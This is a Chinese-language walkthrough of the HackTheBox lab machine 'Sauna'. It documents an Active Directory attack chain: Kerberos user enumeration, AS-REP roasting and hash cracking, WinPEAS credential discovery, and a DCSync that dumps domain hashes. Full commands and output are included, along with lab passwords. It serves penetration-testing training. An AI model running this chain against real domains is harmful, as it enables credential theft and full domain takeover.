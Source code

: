 ```yaml
---
title: "HTB-Sauna"
date: 2025-01-18
categories: 
  - "HTB-Machine"
tags: 
  - "hackthebox"
  - "windows"
---
```


## Box Info

| OS | Windows |
| --- | --- |
| Difficulty | Easy |

## Nmap

```
[root@kali] /home/kali/Sauna  
❯ nmap Sauna.htb -sV -T4 

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos 
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
```

把**EGOTISTICAL-BANK.LOCAL**添加到**/etc/hosts**

## Crack Password

在网页中的**about**页面发现了一些团队成员

![](./images/image-34.png)

```
Fergus Smith
Shaun Coins
Hugo Bear 
Bowie Taylor 
Steven Kerb 
Sophie Driver 
```

这里使用一个工具将可能的用户名组合列出

\[github author="urbanadventurer" project="username-anarchy"\]\[/github\]

```
[root@kali] /home/kali/Sauna/username-anarchy (master) ⚡ 
❯ cat usernames.txt 
fergus
fergus.smith
ferguss
fsmith
shaun
shaun.coins
shaunc
scoins
hugo
hugo.bear
hugob
hbear
bowie
bowie.taylor
bowiet
btaylor
steven
steven.kerb
stevenk
skerb
sophie
sophie.driver
sophied
sdriver
```

使用**kerbrute**进行尝试是否存在这些用户

```
[root@kali] /home/kali/Sauna  
❯ ./kerbrute_linux_amd64 userenum -d EGOTISTICAL-BANK.LOCAL usernames.txt --dc EGOTISTICAL-BANK.LOCAL

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1)  Ronnie Flathers @ropnop

  Using KDC(s):
  EGOTISTICAL-BANK.LOCAL:88

  [+] VALID USERNAME:       fsmith@EGOTISTICAL-BANK.LOCAL
  Done! Tested 24 usernames (1 valid) in 1.049 seconds
```

可以看到只存在一个**fsmith**，下面看一下是否开启了**Kerberos** 预身份验证

```
[root@kali] /home/kali/Sauna  
❯ impacket-GetNPUsers -usersfile usernames.txt -no-pass -dc-ip "10.10.xx.xx" EGOTISTICAL-BANK.LOCAL/                              ⏎

$krb5asrep$23$fSmith@EGOTISTICAL-BANK.LOCAL:2bf051fe5d01a87bb394e35afeb5fb52$9109680d602a2ee95749b1c7c8eb999526aaa633047a593d78442d74949dc97d2b565d61ffee5f92ed51a9aa4486561ad901cd7ade464bed9696a10a40fcccabe87883a59903ac99a03e65c16101bf4083dee0e86691cb2060a29a94c983acc7adf6bc16a1abc6fa3d46cea8eb43a1404446698fe5dxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx
```

使用**John the Ripper**进行解密

```
[root@kali] /home/kali/Sauna  
❯ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt

xxxxxxxxxxxxx   ($krb5asrep$23$fSmith@EGOTISTICAL-BANK.LOCAL)     
```

最后使用**Evil-winrm**进行登录拿到**user.txt**

![](./images/image-35.png)

## Privilege Escalation

## Bloodhound

把**SAUNA.EGOTISTICAL-BANK.LOCAL**添加到**/etc/hosts**

```
[root@kali] /home/kali/Sauna  
❯ bloodhound-python -u fsmith -p "Thestrokes23" -d EGOTISTICAL-BANK.LOCAL -ns 10.10.xx.xx -c All
INFO: Found AD domain: egotistical-bank.local
INFO: Getting TGT for user
INFO: Connecting to LDAP server: SAUNA.EGOTISTICAL-BANK.LOCAL
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: SAUNA.EGOTISTICAL-BANK.LOCAL
INFO: Found 7 users
INFO: Found 52 groups
INFO: Found 3 gpos
INFO: Found 1 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: SAUNA.EGOTISTICAL-BANK.LOCAL
INFO: Done in 00M 32S
```

发现一个可以使用**DCSync**的用户：**SVC\_LOANMGR**

![](./images/image-37.png)

两个用户在一个组内，但是**fsmith**和**svc\_loanmgr**之间没有直接联系

![](./images/image-38.png)

## Winpeas

我这里下载的是**winpeasx64.exe**

- [Releases · peass-ng/PEASS-ng](https://github.com/peass-ng/PEASS-ng/releases)

在目标系统上发现了自动登录凭证

```
ÉÍÍÍÍÍÍÍÍÍÍ¹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  MoneymakesthXXXXXXXXXXX
```

那么接下来就可以使用**DCSync**攻击了

## **DCSync**

使用**impacket-secretsdump**来伪装成**DC**获取域控上的**hash**

```
[root@kali] /home/kali/Sauna  
❯ impacket-secretsdump 'EGOTISTICAL-BANK.local/svc_loanmgr:Moneymakestheworldgoround!'@10.10.xx.xx
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied 
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaxxxxxxxxxxx:823452073d75b9dxxxxxxxxxxxxx:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
```

通过**evil-winrm**使用**hash**登录，拿到**root.txt**

![](./images/image-39.png)

## Summary

`User`：通过官网上的相关资料尝试爆破用户名，使用工具**username-anarchy**来获取一些常见的用户名，通过**Kerberos**的未设置预认证的账户获取到了用户**hash**进行登录。

`Root`：**Bloodhound**分析可以进行**DCSync**攻击，但是和当前用户没有关联，只能上传**Winpeas**查看系统详细信息，获取到了自动登录的密码，进而进行**DCSync**
